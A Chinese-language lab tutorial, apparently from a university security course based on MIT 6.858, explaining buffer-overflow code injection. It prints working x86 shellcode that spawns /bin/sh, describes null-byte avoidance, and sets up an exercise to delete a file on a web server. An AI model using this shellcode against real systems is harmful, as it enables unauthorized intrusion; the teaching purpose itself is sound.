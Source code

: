 #缓冲区溢出3：代码注入

###哈尔滨工业大学 网络与信息安全 张宇 2016

参考课程: [MIT 6.858 Computer Systems Security](http://ocw.mit.edu/courses/electrical-engineering-and-computer-science/6-858-computer-systems-security-fall-2014/index.htm) by Prof. Nickolai Zeldovich

实验资料: [MIT 6.858 Computer Systems Security](http://ocw.mit.edu/courses/electrical-engineering-and-computer-science/6-858-computer-systems-security-fall-2014/index.htm)中Lab 1。

参考资料：[Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html#article)

###Shell code原理

利用缓冲区溢出漏洞改写函数返回地址来劫持程序控制流，令其指向预执行代码。通常该代码会启动一个shell，称作"shell code"。下面是一个C语言程序启动shell的例子。

``` c
#include <stdio.h>void main() {   char *name[2];   name[0] = "/bin/sh";   name[1] = NULL;
   /* int execve(const char *filename, char *const argv[],
          char *const envp[]);   */   execve(name[0], name, NULL);
   exit(0);}
```

该程序中`execve()`在父进程中fork一个子进程，在子进程中调用`exec()`函数启动新的程序。`exec`系列函数中`execve()`为内核级系统调用。 `execve()`执行第一个参数`filename`字符串所指文件，第二个参数是利用数组指针来传递命令行参数，并且要以空指针`null`结束，最后一个参数则为传递给执行文件的新环境变量数组。Linux的`execve()`通过寄存器传递参数，由0x80软中断触发调用。调用过程如下：

1. 内存中存在`null`结尾字符串`"/bin/sh"`
1. 内存中存在`"/bin/sh"的地址`加一个`null long word`1. 拷贝`execve`调用号(`0xb`)到`eax`寄存器1. 拷贝`"/bin/sh"的地址的地址`到`ebx`寄存器1. 拷贝`"/bin/sh"的地址`到`ecx`寄存器1. 拷贝`null long word的地址`到`edx`寄存器1. 执行`int $0x80`指令

若`execve()`调用失败，程序将继续执行，很可能导致崩溃。为了令程序在调用失败后仍然可以正常退出，在`execve()`之后添加`exit()`系统调用：

1. 拷贝`exit`调用号(`0x1`)到`exa`寄存器
2. 拷贝`0x0`到`exb`寄存器
3. 执行`int $0x80`指令

在shell code中，多处需要用到地址，一个问题是我们不知道代码和字符串会被放置在哪里。解决该问题的一种方法是用`jmp`和`call`指令，通过`ip`指令指针相对寻址来跳到特定位置，而不需要事先知道准确地址。

首先，在通过改写返回地址来跳转到shell code后，利用`jmp`指令跳转到`call`指令。将`call`指令放在`"/bin/sh"`字符串之前，当执行`call`指令时，字符串地址将被入栈，作为`call`被执行时的返回地址。`call`指令只需简单的跳转到`jmp`之后的代码，执行`pop`指令将栈中的`call`的返回地址，即字符串地址，拷贝到一个寄存器使用。下面是程序描述与跳转示意图。

1. (1) 返回地址跳转到shell code
1. (2) `jmp`跳转到`call`
1. `pop`获得`"/bin/sh"地址`
1. 执行`execv()`
1. 执行`exit()`
1. (3) `call`跳转到`pop`
1. 字符串`"/bin/sh"`

```
low address         <———— stack growth ————        high address
                      
          +—————————(3)—————————+
          V                     | 
   [jmp][pop][execv()][exit()][call]["/bin/sh"][sfp][ret][arguments]
   ^  |                          ^                    |
   |  +—————————(2)——————————————+                    |
   +——————————————————————————————————(1)—————————————+  

```

通常shell code将被作为字符串注入缓冲区中。由于空字节(null)会被认为是字符串结尾，因此需要将其中的空字节去掉。一种主要手段是用`xorl %eax,%eax`指令来令`eax`寄存器为`0`，用`eax`作为参数，从而避免在参数中直接使用`0`。

在实验中提供了3个文件：

- `shellcode.S`：Shell code汇编代码
- `shellcode.bin`：`make`编译后二进制代码
- `run-shellcode`：直接运行`shellcode.bin`

查看`shellcode.S`：

``` c
#include <sys/syscall.h>                /* 系统调用编号表 */

#define STRING  "/bin/sh"
#define STRLEN  7
#define ARGV    (STRLEN+1)
#define ENVP    (ARGV+4)

.globl main                             /* 令符号main对ld和其他程序可见 */
        .type   main, @function         /* 设置符号main的类型为函数 */

 main:
        jmp     calladdr                /* 跳转(2) 到 CALL */

 popladdr:
        popl    %esi                    /* STRING的地址出栈 */
        movl    %esi,(ARGV)(%esi)       /* set up argv pointer to pathname */
        xorl    %eax,%eax               /* 获得32-bit的0 */
        movb    %al,(STRLEN)(%esi)      /* 将0写入STRING结尾字节 */
        movl    %eax,(ENVP)(%esi)       /* 将envp置0 */

        movb    $SYS_execve,%al         /* syscall参数1: syscall编号 */
        movl    %esi,%ebx               /* syscall参数2: string pathname */
        leal    ARGV(%esi),%ecx         /* syscall arg 2: argv */
        leal    ENVP(%esi),%edx         /* syscall arg 3: envp */
        int     $0x80                   /* invoke syscall */

        xorl    %ebx,%ebx               /* syscall arg 2: 0 */
        movl    %ebx,%eax
        inc     %eax                    /* syscall arg 1: SYS_exit (1), uses */
                                        /* mov+inc to avoid null byte */
        int     $0x80                   /* invoke syscall */

 calladdr:
        call    popladdr
        .ascii  STRING                  /* 将字符串(不追加零)存入连续地址 */
```



###代码注入练习

在本练习中，利用缓冲区溢出漏洞将代码注入到web服务器，从而删除一个敏感文件`/home/httpd/grades.txt`。

以下文件用于本练习：




